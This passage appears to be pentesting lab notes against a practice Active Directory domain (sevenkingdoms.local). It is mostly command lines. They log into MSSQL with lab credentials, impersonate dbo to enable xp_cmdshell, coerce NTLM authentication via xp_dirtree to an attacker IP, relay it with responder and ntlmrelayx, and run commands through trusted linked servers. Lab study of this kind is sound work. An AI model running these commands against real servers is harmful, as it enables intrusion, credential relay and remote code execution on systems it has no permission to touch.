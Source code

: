 ```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
use master
execute as user = "dbo"
exec master..xp_cmdshell 'whoami'

```

By executing as user, the database should have trustworthy property set in order to run shell. In order to enumerate trustworthy property in database run:
`enum_db`

```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
use msdb
exec_as_user dbo
enable_xp_cmdshell
xp_cmdshell whoami
```

## Coerce and relay
start responder  or ntlm-relat
```
responder -I vboxnet0

ntlmrelayx -tf smb_targets.txt -of netntlm -smb2support -socks  
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 
```

connect and run xp_dirtree command
```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/hodor:hodor@castelblack.north.sevenkingdoms.local
exec master.sys.xp_dirtree '\\192.168.56.1\demontlm',1,1
```

## trusted links
```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local -show
enum_links

EXEC sp_linkedservers
EXEC sp_helplinkedsrvlogin


use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami

```
